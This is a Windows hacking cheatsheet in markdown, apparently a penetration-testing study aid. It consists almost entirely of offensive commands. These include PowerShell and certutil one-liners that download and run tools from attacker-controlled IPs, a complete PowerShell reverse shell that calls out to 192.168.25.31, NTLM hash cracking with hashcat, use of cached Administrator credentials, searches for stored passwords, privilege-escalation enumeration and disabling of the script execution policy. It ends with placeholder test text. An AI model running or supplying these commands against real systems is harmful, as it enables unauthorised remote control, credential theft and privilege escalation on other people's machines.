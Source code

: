 # WINDOWS HACKING CHEATSHEET

#### Windows spawn cmd and execute command
`cmd.exe /c echo "hello world"`

#### Windows download from web
`IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')`

#### Use certutil to download from web
`certutil.exe -urlcache -split -f "http://10.9.3.23/Advanced.exe" Advanced.exe`

### Windows Powershell download from web
`powershell "IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')"`

### Powershell Reverse Shell One Liner
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.25.31",7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Mount NFS v3
`mount -t nfs -o vers=3 $ip:/dir /mnt/dir`

### Download via windows CMD
`powershell -c (new-object System.Net.WebClient).DownloadFile('http://192.168.25.31/privesc/accesschk.exe','C:\Users\GitService\Desktop\accesschk.exe')`

### Show Patches
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

### Use cached creds Windows
`runas /u:Administrator cmd.exe /c findstr /si *.txt > C:\Users\offsec\Desktop\text.txt`

### Cracking Windows Password Hash
```
**Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
**USERNAME:SID:LM(BLANK=aad3b435b51404eeaad3b435b51404ee):NTLM:::
hashcat -m 1000 -a 0 -o plain-pass.txt --remove file-with-hash.hash /usr/share/wordlists/rockyou.txt
```

### Find file containing keyword
`findstr /si password *.txt | *.xml | *.xls`

### Show Drives
`wmic logicaldisk get caption,Description,providername`

### Find specific directory
`dir <Folder Name> /AD /s`

### Find specific file name on system
`dir /a /s /b c:\*flag2.txt`

`dir /b/s *.txt`

`where /r c:\Windows *.exe *.dll`

### Search long output
`command |more`

### Find Unquoted service paths
`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`

### Allow execution of scripts in powershell
`Set-ExecutionPolicy unrestricted`

### Show execution policy
`Get-ExecutionPolicy -List | Format-table -AutoSize`

### Show User Privlages
`whoami /priv`

### Show a Users Group
`whoami /groups`

### List users in a group
`net localgroup administrtor`

### Show info on specified user
`net user administrator`

### Show Routing table
`route print`

### TEST
test test test